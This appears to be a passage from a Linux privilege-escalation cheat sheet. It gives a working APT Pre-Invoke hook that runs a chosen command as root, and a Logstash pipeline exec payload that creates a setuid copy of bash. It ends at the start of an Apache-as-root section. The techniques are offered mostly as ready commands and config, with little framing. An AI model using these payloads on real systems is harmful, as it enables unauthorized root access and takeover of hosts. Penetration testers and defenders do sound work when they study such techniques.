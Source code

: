 This method works best if \[apt-get update] was added as a cronjob in \[/etc/crontab]. Also write access is needed on \[/etc/apt/apt.conf.d/]. Simply we create a script that will be executed once \[apt-get update] finishes running.

```
echo 'APT::Update::Pre-Invoke {"command"};' > pwn
mv pwn /etc/apt/apt.conf.d/
```

Make sure to replace \[command] above with the command you want to execute. \[pwn] is the name of the script.

#### Privilege escalation through 3-party services and programs

**Logstash**

Logstash is a service used to collecting, transforming and parsing logs. it works based on piplelines that take the input from multitude of log sources, process it and then send it to the stash where it is parsed and transformed. The two most important config files are

```
pipelines.yml [controls the parameters configs]
logstash.yml [controls which config files to run]
```

The configs of logstash are found under \[/etc/logstash] To escalate privliges through logstash, couple conditions must be met 1- Service must be run as root 2- you have write access on at least one of the config files \[/etc/logstash] 3- you are able to restart logstash service or it restarts automatically by itself \[checl /etc/logstash/pipeline.yml] If conditions are met, modify one of the configuration files with the below

```
bash
input {
  exec {
    command => "cp /bin/bash /home/bill/shell; chmod +xs /home/bill/shell"
    interval => 10
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

#### Privilege escalation using Apache

If Apache process is running as root, we can achieve root. First is to list the processes and their respective owner

```
ps -aux
```

